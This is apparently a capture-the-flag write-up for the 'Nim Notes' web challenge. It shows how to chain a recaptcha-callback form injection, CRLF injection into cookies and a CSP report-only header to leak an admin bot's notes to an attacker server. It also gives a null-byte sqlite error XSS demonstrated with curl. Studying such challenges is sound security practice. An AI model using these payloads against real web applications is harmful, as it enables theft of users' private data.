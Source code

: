 # Nim Notes

* Category: Web

## Description

I made this note taking web app in Nim as a part of learning it. If you have some cool notes about Nim please share it with me!

## Overview

You have a simple note taking website, which allows you to use markdown to create some notes. The webiste backend is written in Nim, with a small framework called [jester](https://github.com/dom96/jester). You can share you notes with admin (bot), and your target is to steal the flag in admin's notes.

## Solution

The bot only visits `http://web/?user=xxx`, so you might want to direct the bot to your own website first. Your note content are first parsed by marked then filtered by DOMPurify, so you most probably couldn't have a direct XSS (unless you have a DOMPurify 0day lol).

The trick is to notice that recaptcha v2 are used on the website too, and [its documentation](https://developers.google.com/recaptcha/docs/display) listed some ways to interact with it through HTML markup. Obviously, the most interesting things are `data-callback` and `data-error-callback`, they should be specified to be the name of a global function.

Is there anything interesting things can be used as a callback? Of course, there is! In `/js/app.js`, there's a simple function `logout`:

```javascript
function logout() {
	document.getElementById('logout-form').submit()
}
```

It simply submit the `<form>` with id `logout-form`, but the form in `templates/index.html` are located at the very end of HTML, which is after the notes container. If you inject a `<form>` with `logout-form` at container section, it will submit the injected one rather than the original logout one. So you can just provide your website's url to `action` of that form, and it will direct the bot to your site when callback are called.

```html
<form action="YOUR_SERVER" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>peko</button>
</form>
```

> The source of this idea comes from [this tweet](https://twitter.com/oreha_senpai/status/1431947638878838786), BTW

After directing the bot to your website, there are one intended solution and one unintended solution (much easier and less interesting) as far as I know.

The intended solution is to use the fact that `setCookie` is vulnerable to CRLF Injection. Since `sign` function simply concat your message and hash together, your payload is directly passed into `setCookie` almost unmodified if you could success at login/register.

You might think it is easy to XSS after CRLF Injection, but in fact, it is not. The injection point are at `Set-Cookie` header, which is after the CSP header. And it is easy to found that you can't really disable CSP even if you could inject headers in modern Chromium. So you still need to find a way to bypass CSP:

```csp
default-src 'self'; script-src 'self' https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/; frame-src https://www.google.com/recaptcha/ https://www.gstatic.com/recaptcha/;
```

The CSP prevents you from using inline `<script>` tag to XSS, but you can trying to load script with current origin. If this CSRF request are `GET`, you can try to construct a Javascript/HTML polyglot and force the browser to cache the response. Then make a `<script>` tag's `src` to point to itself might work. But it is a `POST` in this challenge, so this won't work.

Another option is trying to use the fact HTTP keep-alive are all in a single TCP connection, since Chromium only opens 6 parallel connections at the same time by default, it is possible to make them reuse same connection for HTML and the script. While this is possible in theory, but Chromium will simply disconnect immediately when it sees more content then it is expecting, so it is important to make it align to packet boundary. This is so complicated that I couldn't make it work in this challenge.

> If you want to know more about this, see **PlaidCTF 2021 - Carmen Sandiego** and **Circle City Con CTF 2021 - Sticky Notes**

So it is impossible to XSS this way? I don't know, but you don't really need XSS to exfiltrate the flag. The trick is to abuse the [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) header, which allows you to specify another set of CSP rules, but it only reports the violation to a specified url without blocking it. And the reported infomation is encoded as a JSON, one of the field `script-sample` contains `The first 40 characters of the inline script, event handler, or style that caused the violation.` by MDN.

What if you can make it send the flag to your server using `script-sample`? See the `createNote` function in `/js/app.js`:

```javascript
function createNote(note) {
	const el = document.importNode(document.getElementById('note-tmpl').content, true)
	el.querySelector('.note-title').textContent = note.title
	el.querySelector('.note-author').textContent = note.author
	el.querySelector('.note-content').innerHTML = DOMPurify.sanitize(marked.parse(note.content))
	return el
}
```

It is expected that flag will be in admin's `note.content`, if `.note-content` element is a `<script>` tag then it will put the content (flag) to `script-sample` and send it to your server!

So it is clear that we can use CRLF Injection to set your own `Content-Security-Policy-Report-Only`, and the body will be a HTML with designed `#note-tmpl` template. You also need to load `/js/app.js`, `/js/marked.min.js` and `/js/purify.min.js` to make it work too. Once the bot trying to load that HTML, the violation will be triggered when it wants to set `innerHTML` to be the flag.

The exploit is [exp.py](exp.py), you need to set the `public_host` variable to be a publicly reachable url of that flask server. After starting it, create a note with following content and share it with admin (bot):

```html
<form action="http://IP_OF_THIS_SERVER/csrf" id="logout-form">
<button type=submit class=g-recaptcha data-sitekey=invalid data-error-callback=logout data-action=submit>asd</button>
</form>
```

Then the flask server should prints the flag.

## Unintended Solution

You need to direct the bot to your website first too. But the CSRF part is different here.

The trick is that when your username contains `\0` (null byte), it will cause syntax error in Nim's sqlite library. This happens because it [didn't uses sqlite's prepared statement](https://github.com/nim-lang/Nim/blob/d7370ce26962b3b82e6b9be6562f6e88ba7ff86c/lib/impure/db_sqlite.nim#L214).

And the error message are output **directly** to response by Jester, with no CSP headers.

```bash
> curl 'http://34.81.54.62:8765/login' --data $'username=<script>alert(1)</script>%00&password=peko' -v
*   Trying 34.81.54.62:8765...
* Connected to 34.81.54.62 (34.81.54.62) port 8765 (#0)
> POST /login HTTP/1.1
> Host: 34.81.54.62:8765
> User-Agent: curl/7.81.0
> Accept: */*
> Content-Length: 55
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 502 Bad Gateway
< Server: nginx
< Date: Mon, 28 Feb 2022 03:08:23 GMT
< Content-Type: text/html;charset=utf-8
< Content-Length: 343
< Connection: keep-alive
<
<html xmlns="http://www.w3.org/1999/xhtml"><head><title>Jester route exception</title></head><body><h1>An error has occured in one of your routes.</h1><p><b>Detail: </b>db_sqlite.nim(198)       dbError<br/>
asyncfutures.nim(389)    read<br/>
asyncfutures.nim(389)    read<br/>
* Connection #0 to host 34.81.54.62 left intact
unrecognized token: "'<script>alert(1)</script>"</p></body></html>
```

So you have an easy XSS now, lol.
